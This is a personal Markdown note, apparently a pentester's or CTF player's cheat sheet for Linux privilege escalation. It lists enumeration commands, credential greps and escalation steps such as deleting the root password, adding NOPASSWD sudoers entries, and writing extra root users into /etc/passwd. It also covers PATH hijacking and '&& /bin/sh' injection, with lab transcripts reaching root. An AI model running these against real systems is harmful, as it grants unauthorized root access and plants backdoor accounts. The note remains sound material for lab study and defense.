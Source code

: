 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Linux Privilege Escalation]]  
___

## Description:  
Auto enumeration with [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
### useful enumeration

users
`cat /etc/passwd`

**What commands can the user execute with sudo?
`sudo -l
look for wildcards to run anything or try path traversal
`(ALL) /usr/bin/node /usr/local/scripts/*.js`
means this will work:
`sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/rev.js`

**check for mail
`ls /var/mail/`

**What is the kernel version and architecture type?
`uname -a
`uname -r

**What is the OS version
`cat /etc/*-release
kernel modules
`lsmod`
`/sbin/modinfo libata`

**What languages are installed?
`man -k language
`which gcc
`which g++

**running processes**
ps aux

**Run pspy64 on the machine to get the process run by root.**

**What are the SUID/GUID binaries?
``find / -perm -u=s -type f 2>/dev/null
``find / -perm -g=s -type f 2>/dev/null

look for vulnerable programs that run as root
[gtfobins](https://gtfobins.github.io/)

**Are there world writable files?
`find / -writable -type d 2>/dev/null

**What have users been doing? Command history?
`history
``.bash_history

**Are there any plaintext credentials to be found?
`find . -type f | xargs grep –i “password”
`grep –r . –e “password” 2>/dev/null

**What jobs are scheduled?
`crontab -l
l`s -lah /etc/cron* 2>/dev/null
`cat /etc/crontab`

networking
`netstat -tulpn`
`/sbin/route`
`ss -anp`
`cd /etc/iptables`
`cat /etc/hosts` (can find vhosts on webservers or check config files)

**applications installed**
`dpkg -l`

**unmounted disks
`cat /etc/fstab`
`mount`
`/bin/lsblk`

**What processes and services are running?  Which are running as root?
`ps –ef
`ps –ef | grep root

**Script that deletes the root password**
bash:
`passwd -d root`
`su root`
python:
`import os;os.system(\"passwd -d root\")`
or
`echo "import os;os.system(\"passwd -d root\")" > bash.py`


**Scripts that can be used if they run as root:
`echo “user ALL=(ALL) NOPASSWD:ALL” >> /etc/sudoers
`echo “user::0:0:System Administrator:/root/root:/bin/bash” >> /etc/passwd
`bash -i

**Editing the Sudoers file to give root
change:
`loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht 
To:
`loneferret ALL=NOPASSWD: /bin/su, /usr/local/bin/ht 
`loneferret@Kioptrix3:~$ sudo /bin/su 

**Can you set a SUID on bash?
`chmod +s /bin/bash`
`/bin/bash -p`

**Is /etc/passwd writable?**
Removing x means root requires no password
`echo root::0:0:root:/root:/bin/bash > /etc/passwd`
--OR--
generate hash of the password:
`openssl passwd -1 -salt [salt value] {password}
`openssl passwd -1 -salt user3 pass123
to create a second root user with "mrcake" password:
`echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd
to switch to a root2 account that was just created:
`su root2
`Password: mrcake
su root
**Can you run tcpdump?**
run tcpdump with -I lo for loopback
or what other systems are connecting to it? You might be able to get a username and password

**is it AD domain joined?**
check:
`/var/lib/sss/db`
`strings cache_cerberus.local.ldb
Look for password hashes

**Program that runs a command without an absolute path**
Create a program with the same name in the tmp directory (echo /bin/bash >> command) and then add tmp to the beginning of path (export PATH=/tmp:$PATH)

```
kane@pwnlab:~$ cd /tmp

cd /tmp

kane@pwnlab:/tmp$ echo /bin/bash > cat

echo /bin/bash > cat

kane@pwnlab:/tmp$ chmod 777 cat

chmod 777 cat

kane@pwnlab:/tmp$ export PATH=/tmp:$PATH

export PATH=/tmp:$PATH

kane@pwnlab:/tmp$ cd /home/kane

cd /home/kane

kane@pwnlab:~$ ./msgmike

./msgmike

mike@pwnlab:~$ id

id

uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)

```
**Can you use command concatenation with && /bin/sh or &&/bin/bash?

```
mike@pwnlab:/home/mike$ ./msg2root

./msg2root

Message for root: hello && /bin/sh

hello && /bin/sh

hello

# id

id

uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)

```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
